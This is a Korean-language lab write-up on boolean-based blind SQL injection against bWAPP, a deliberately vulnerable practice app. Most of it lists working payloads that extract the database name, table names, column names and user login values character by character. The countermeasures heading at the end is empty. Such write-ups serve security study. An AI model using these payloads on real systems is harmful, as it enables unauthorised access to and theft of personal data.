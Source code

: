 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - Blind - Boolean-Based"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

<br>

### Boolean - Based

![image-20220317013803688](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317013803688.png)

- 참 거짓을 이용해야 하기 때문에
- 참, 거짓일 때의 반응 살펴보기

![image-20220317013920795](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317013920795.png)

- 참

![image-20220317013942282](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317013942282.png)

- 거짓

<br>

### DB 조회

![image-20220317014200725](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317014200725.png)

`' or length(database())=1#`

- 이런식으로 DB의 길이를 하나하나 참 거짓으로 대입해봐서 알아내면 됨

 `' or ascii(substring(database(),1,1))>=97#` 

- DB 길이를 알아내고 문자를 알아내야 하는데
- ascii 명령어를 통해 대문자인지 소문자인지를 먼저 구분하고

`' or substring(database(),1,1)='a'#`

- substring 명령어를 통해 database의 첫번쨰 위치의 길이 1값이 a가 맞는지 확인한다.

```
SUBSTR(str, pos, len)
```

- str에서 pos 번째 위치의 len개의 문자를 읽어 들임

<br>

### 테이블 조회

![image-20220317015039652](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317015039652.png)

`' or length((select table_name from information_schema.tables where table_type='base table' and table_schema='bWAPP' limit 0,1))=1#`

- 이 또한 length 를 구해주고

`' or ascii(substring((select table_name from information_schema.tables where table_type='base table' and table_schema='bWAPP' limit 0,1),1,1))>96#`

- 대소문자 구분

`' or substring((select table_name from information_schema.tables where table_type='base table' and table_schema='bWAPP' limit 0,1),1,1)='a'#`

- 문자 대조를 통해 구할 수 있다.
- 손이 많이 가지만 하다보면... 모르겠다..

<br>

### 컬럼 조회

![image-20220317015241761](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317015241761.png)

`' or length((select column_name from information_schema.columns where table_name='heroes' limit 1,1))=1#`

- length 구하고

`' or ascii(substring((select column_name from information_schema.columns where table_name='heroes' limit 1,1),1,1))>96#`

- 대소문자 구분

`' or substring((select column_name from information_schema.columns where table_name='heroes' limit 1,1),1,1)='a'#`

- 문자 대조

<br>

### 컬럼 속성

![image-20220317015417408](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317015417408.png)

`' or length((select login from heroes limit 0,1))=3 #`

- length

`' or ascii(substring((select login from heroes limit 0,1),1,1))>96#`

- 대소문자 구분

`' or substring((select login from heroes limit 0,1),1,1)='a'#`

- 대조
- 끝까지 해주면 개인정보를 확인할 수 있다.

<br>

<br>

## 대응방안

